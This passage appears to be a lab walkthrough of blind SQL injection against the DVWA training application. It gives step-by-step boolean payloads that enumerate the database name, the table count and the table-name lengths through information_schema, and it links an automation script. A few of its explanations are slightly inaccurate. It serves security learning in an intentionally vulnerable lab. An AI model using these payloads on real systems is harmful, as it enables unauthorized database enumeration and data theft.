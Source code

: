In the step of comparing with the ascii value we can use the '>' or '<' signs to easily find the value before finding its exact value.

Code Python for Auto: https://github.com/nahcusira/Python/blob/master/sql_injection_blind_low.py

•	Get length of database’s name (4): 1' and length(database())=4#

Check if the database name length is equal to 4, if it is 4, it will say it already exists, if not equal it will say MISSING
 
![Screenshot 2024-01-05 193429](https://github.com/nahcusira/dvwa/assets/87233531/1de4a728-1c4d-4fcb-ac1c-d8bc08b72ac5)

•	Get name of database by bruteforcing each character (dvwa): 1' and ascii(substr(database(),1,1))=100#

Use to check if the first character of the current database name is equal to the ASCII code for the letter "d". This payload uses the "substr()" function to retrieve the first character of the database name, and the "ascii()" function to convert the character to its ASCII code. The code is then compared to the integer value of 100, which is the ASCII code for lowercase "d". If the first character is "d" it will say it already exists, if not it will say MISSING. And the characters after that we do the same

1' and ascii(substr(database(),2,1))=118#

1' and ascii(substr(database(),3,1))=119#
 
1' and ascii(substr(database(),4,1))=97#

![image](https://github.com/nahcusira/dvwa/assets/87233531/f6039c96-affe-480e-b234-f68419edb3a4)

•	Get number of tables in database (2): 1' and (select count(table_name) from information_schema.tables where table_schema=database())=2#

Use to determine if the number of tables in the current database is exactly 2. This payload uses a subquery to count the number of tables in the current database using the "count()" function and the "information_schema.tables" table. If result is 2 it will say it already exists, if not it will say MISSING.
 
![image](https://github.com/nahcusira/dvwa/assets/87233531/7963a801-b1de-4d86-a238-115a525bde21)

•	Get length of each tables’ name (9 and 5): 1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 0),1))=9#

Use to check if the second table name in the current database has a name with a length of 9 characters. This payload uses a subquery to select the name of the first table in the current database using the "information_schema.tables" table. The "substr()" function is used to retrieve the first character of the table name, and the "length()" function is used to determine the length of the resulting string. The length is then compared to the integer value 9. If the length is 9 it will say it already exists, if not it will say MISSING. And the table after that we do the same.
 
![image](https://github.com/nahcusira/dvwa/assets/87233531/841b6a13-8dd4-44f0-ac82-7259845c101a)

1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 1 offset 1),1))=5#

![image](https://github.com/nahcusira/dvwa/assets/87233531/baffb70b-584a-442e-8417-e1984347739b)
